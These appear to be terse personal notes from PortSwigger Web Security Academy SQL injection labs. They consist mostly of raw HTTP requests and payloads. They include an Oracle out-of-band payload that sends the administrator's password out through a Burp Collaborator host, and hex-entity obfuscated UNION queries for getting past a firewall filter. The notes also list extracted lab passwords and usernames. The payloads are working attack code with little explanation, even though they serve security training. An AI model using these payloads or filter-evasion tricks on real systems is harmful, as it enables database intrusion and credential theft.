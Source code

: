 GET / HTTP/1.1
Host: 0a160007037cd3b1c0bff98600720050.web-security-academy.net
Cookie: TrackingId=2i25KlUcCmG4QhR7'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//t601jdr08annpyvgxpqi2l1txk3arz.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual+--; session=MJaKM2o99ECAa5BF0RIgONyaU5DNSYg5

https://portswigger.net/web-security/sql-injection/cheat-sheet

make sure url encode key characters

### Lab: Blind SQL injection with out-of-band data exfiltration

GET / HTTP/1.1
Host: 0aa0008304a16dd1c06b28ab00bb00ce.web-security-academy.net
Cookie: TrackingId=kVgKSt9x4Xeygwi8'+union+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+from+users where username = 'administrator')||'.1ce9plx8eitvv61o3xwq8t713s9jx8.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual+--; session=ImvxJ6roYG9IPaNy6LvQC4I6CT14bUvb

https://portswigger.net/web-security/sql-injection/cheat-sheet

make sure url encode key characters

### Lab: SQL injection with filter bypass via XML encoding

3' and union select * from users --

2' union select NUL

FIREWALL blocking SQLi

use hackvector to obfsucate SQLi. it works because we are using xml to transfer the data

<@hex_entities>1 UNION SELECT NULL<@/hex_entities>

<@hex_entities>1 UNION SELECT version()<@/hex_entities>

<@hex_entities>1 UNION SELECT column_name from information_schema.COLUMNS WHERE TABLE_NAME='users'<@/hex_entities>

<@hex_entities>1 UNION SELECT password from users<@/hex_entities>

<@hex_entities>1 UNION SELECT username from users<@/hex_entities>

q8zhonzenah72u81y5mr

3keuef9qr4h7p04u3lwm

dunq21ctv50s6pwblx7g

carlos

administrator

weiner

### Beyond Lab 1: Second Order SQL injection

https://www.youtube.com/watch?v=e9pbC5BxiAE

https://0xdf.gitlab.io/2019/01/19/htb-secnotes.html#beyond-root

https://portswigger.net/kb/issues/00100210_sql-injection-second-order


